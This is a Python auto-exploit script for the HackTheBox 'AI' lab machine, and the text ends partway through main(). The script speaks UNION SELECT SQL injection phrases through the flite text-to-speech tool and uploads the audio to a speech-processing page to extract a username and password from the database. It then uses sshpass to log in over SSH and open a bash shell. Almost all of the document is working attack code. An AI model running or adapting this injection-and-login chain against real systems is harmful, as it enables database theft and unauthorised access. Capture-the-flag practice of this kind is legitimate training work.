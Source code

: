 auto_alexa.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# AI HackTheBox auto SQLInjection and SSH Login

import argparse
import requests
import sys
import os
from bs4 import BeautifulSoup
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First let's get the username
def getUsername(rhost):
    print("[+] Let's get the username !!! [+]")
    url = "http://%s/ai.php" %rhost
    os.system('flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space username space from users comment database"')
    multipart_data = {
        'fileToUpload': ('test.wav', open('/tmp/test.wav', 'rb'), "audio/x-wav"),
        'submit' : (None,"Process It")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    os.system('rm /tmp/test.wav ')
    global username
    username = re.search('Query result : (.*)', upload.text).group(1)
    username = username.removesuffix("<h3>")
    print("[+] Your username is : %s !! [+]" %username)
    
# Then get the password
def getPassword(rhost):
    print("[+] Let's get the password !!! [+]")
    url = "http://%s/ai.php" %rhost
    os.system('flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space password space from users comment database"')
    multipart_data = {
        'fileToUpload': ('test.wav', open('/tmp/test.wav', 'rb'), "audio/x-wav"),
        'submit' : (None,"Process It")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    os.system('rm /tmp/test.wav ')
    global password
    password = re.search('Query result : (.*)', upload.text).group(1)
    password = password.removesuffix("<h3>")
    print("[+] Your password is : %s !! [+]" %password)

# Now let's ssh in
def sshLogin(rhost,username,password):
    print("[+] Now, let's ssh in !!!! [+]")
    command = 'sshpass -p "%s" ssh %s@%s /bin/bash' %(password,username,rhost)
    os.system(command)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
```